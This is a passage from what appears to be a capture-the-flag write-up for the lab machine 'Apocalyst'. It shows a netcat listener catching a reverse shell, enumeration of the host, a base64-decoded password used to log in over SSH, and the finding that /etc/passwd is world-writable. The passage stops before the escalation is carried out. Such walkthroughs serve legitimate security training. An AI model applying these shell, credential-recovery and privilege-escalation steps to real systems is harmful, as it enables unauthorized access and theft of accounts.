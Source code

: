

# nc -lvp 4444


```
www-data@apocalyst:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@apocalyst:/$ 
www-data@apocalyst:/$ uname -a
Linux apocalyst 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@apocalyst:/$ # In reverse shell
www-data@apocalyst:/$ cat /etc/issue
IP: 
www-data@apocalyst:/$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
```


## Elevation

```
$ cat .secret
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
<ZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=' | base64 -d                   
Keep forgetting password so this will keep it safe!
Y0uAINtG37TiNgTH!sUzersP4ss
```


```
# ssh falaraki@10.10.10.46
The authenticity of host '10.10.10.46 (10.10.10.46)' can't be established.
ECDSA key fingerprint is SHA256:haGh7sn13yyJk8VPU6MVYAqxX3Bm2XP9YhF0pDnjcJA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.46' (ECDSA) to the list of known hosts.
falaraki@10.10.10.46's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

120 packages can be updated.
61 updates are security updates.


Last login: Thu Jul 27 12:09:11 2017 from 10.0.2.15


$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1637 Jul 26  2017 /etc/passwd
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ 
falaraki@apocalyst:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```